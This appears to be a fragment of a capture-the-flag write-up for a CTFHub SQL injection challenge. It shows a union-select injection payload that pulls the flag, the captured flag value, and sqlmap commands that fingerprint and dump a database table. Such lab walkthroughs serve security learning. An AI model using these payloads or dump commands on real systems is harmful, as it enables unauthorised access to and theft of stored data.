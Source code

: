 ```
-1' union all select 1,(select flag from flag)#
```
flag:ctfhub{20c2a94e769769d9c6f8d9b6}

![Alt text](image-38.png)
### Sqlmap注入
![Alt text](image-39.png)
```
python sqlmap.py -r "file/ctf_sql_1.txt" -f --batch --dbs -- columns
```
![Alt text](image-40.png)
```
python sqlmap.py -r "file/ctf_sql_1.txt" -f --batch -D sqli -T flag -C flag --dump
```